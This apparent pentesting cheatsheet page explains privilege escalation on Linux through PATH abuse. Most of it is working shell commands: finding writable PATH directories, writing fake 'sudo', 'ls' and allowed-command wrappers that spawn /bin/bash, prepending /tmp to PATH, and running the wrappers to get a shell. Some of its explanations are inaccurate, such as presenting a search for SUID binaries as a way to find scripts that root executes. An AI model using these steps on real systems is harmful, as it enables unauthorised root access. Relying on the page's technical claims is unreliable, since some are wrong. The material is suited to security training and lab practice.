

repository: amandaguglieri/hackinglife · page: linux-path-abuse/index.html · generator: mkdocs

---
title: Linux Path Abuse
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
# Path abuse Cheatsheet

## PATH Abuse Privilege Escalation
This cheat sheet provides actionable steps to escalate privileges using PATH abuse.  [PATH](http://www.linfo.org/path_env_var.html) is an environment variable that specifies the set of directories where an executable can be located.

```shell-session
echo $PATH  # Display the current PATH variable
```

### Modifying PATH for Command Hijacking

```shell-session
# Adding the current directory (.) to PATH
PATH=.:${PATH}
export PATH
echo $PATH  # Confirm the updated PATH
```

By adding `.` to `PATH`, any command executed without an absolute path will first search the current directory. If an attacker can place a malicious script in a writable directory that appears first in the `PATH`, they can hijack legitimate commands and escalate privileges.

---

## Exploitation Techniques

### 1. Overwriting Commonly Used Commands

```shell-session
# Check if a writable directory exists in PATH
find ${PATH//:/ } -writable 2>/dev/null

# Create a fake sudo command
cat <<EOF > /tmp/sudo
#!/bin/bash
/bin/bash
EOF
chmod +x /tmp/sudo
export PATH=/tmp:$PATH

# If the user runs sudo, they will execute our malicious script
sudo
```

### 2. Hijacking Root-Executed Scripts

```shell-session
# Find scripts executed by root that do not use absolute paths
find / -type f -user root -perm -4000 2>/dev/null | grep -vE "(/bin/|/sbin/|/usr/bin/|/usr/sbin/)"

# If a script calls an executable without an absolute path, we can replace it with a malicious version
cat <<EOF > /tmp/ls
#!/bin/bash
/bin/bash
EOF
chmod +x /tmp/ls
export PATH=/tmp:$PATH

# If a root-executed script runs `ls`, it will launch a root shell
ls
```

### 3. Finding Sudo Vulnerabilities

```shell-session
# Check if a user can run commands with sudo without specifying the full path
sudo -l

# If the output contains (ALL) NOPASSWD and does not use absolute paths, create a malicious version of the allowed command
cat <<EOF > /tmp/vulnerable_command
#!/bin/bash
/bin/bash
EOF
chmod +x /tmp/vulnerable_command
export PATH=/tmp:$PATH

# Run the allowed command via sudo
sudo vulnerable_command
```
